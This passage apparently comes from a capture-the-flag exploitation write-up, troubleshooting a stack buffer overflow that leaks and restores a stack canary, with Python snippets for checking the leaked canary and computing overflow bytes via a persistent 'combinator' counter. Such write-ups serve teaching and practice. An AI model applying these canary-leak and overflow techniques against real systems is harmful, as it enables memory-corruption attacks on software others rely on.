 
### Issue 3: "Stack smashing detected"

**Symptom:**
```
*** stack smashing detected ***: terminated
Aborted
```

**Causes:**
1. Wrong canary value leaked
2. Canary not placed at correct position
3. Wrong offset calculation

**Debug approach:**
```python
# Verify canary value
print(f"Leaked canary: {hex(canary)}")
print(f"Canary ends in 00? {canary & 0xff == 0}")

# Verify position (should be token 33)
print(f"Canary token position: {n_tokens - 5}")  # Should be 107 if n_tokens=112
```

---

### Issue 4: "Combinator confusion"

**Symptom:**

Exploit works for first `run_prompt()` but fails on second.

**Cause:**

Forgetting that `combinator` is **static** and persists!

**Solution:**

Track combinator carefully:

```python
combinator = 0

# Stage 1: Leak
for i in range(25):
    calc_input(106)  # combinator goes 0→25

# Stage 2: Overflow
combinator += 1 + 33  # Account for padding
# Now combinator = 59

# Calculate next bytes starting from 59
overflow += bytes([calc_input(n_tokens - 5)])  # Uses combinator=59
```

**Debug helper:**
```python
def calc_input(idx):
    global combinator
    print(f"[DEBUG] combinator={combinator}, target={idx}")
    result = (idx - combinator) % n_tokens
    combinator += 1
    return result
```

---